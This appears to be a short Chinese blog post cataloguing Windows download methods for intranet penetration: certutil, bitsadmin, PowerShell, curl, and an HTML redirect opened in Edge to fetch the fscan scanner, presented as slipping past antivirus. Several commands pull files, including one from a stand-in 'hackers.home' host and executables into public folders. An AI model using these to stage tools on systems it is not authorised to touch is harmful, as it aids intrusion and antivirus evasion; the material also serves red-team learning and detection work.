 ```yaml
---
layout:     post
title:      "windows下载方法"
subtitle:   "主要介绍windows的几个常用的下载方法"
date:       2023-01-29 12:00:00
author:     "cainiao3389"
header-img: "img/post-bg-desk.jpg"
catalog: true
tags:
    - 内网
---
```


## certutil

`certutil.exe -urlcache -split -f "https://hackers.home/badcontent.txt" bad.txt`

---

## bitsadmin

`bitsadmin /transfer n http://example.com/file.zip C:\windows\temp\file.zip`

---

## powershell
```cmd
第一种：
powershell (new-object System.Net.WebClient).DownloadFile('http://example.com/file.zip','c:\users\public\music\t.exe‘)

第二种：
powershell Invoke-WebRequest -Uri http://xxxxx/xxxx.exe -OutFile C:/users/public/videos/xxxx.exe

第三种：
Start-BitsTransfer -Source "https://example.com/file.txt" -Destination "C:\path\to\file.txt"

第四种：
$httpClient = New-Object System.Net.Http.HttpClient
$response = $httpClient.GetAsync("https://example.com/file.txt").Result
$response.Content.ReadAsFileAsync("C:\path\to\file.txt").Wait()
```
---

## curl
`curl -o file.zip http://example.com/file.zip`

---

## html下载（常规操作，杀软根本不拦）

**第一步

要先创建一个test.html，内容如下：
```html
<script>
	window.location.href = "https://github.com/shadow1ng/fscan/releases/download/1.8.2/fscan_darwin_arm64";
</script>
```

**第二步

搜索当前有哪些浏览器，edge，firefox，chrome，ie这几个中ie好像不得行，要实现点击操作。

具体用法如下：
`"C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" C:\Users\admin\Desktop\test.html`

会直接下载到当前用户的download目录
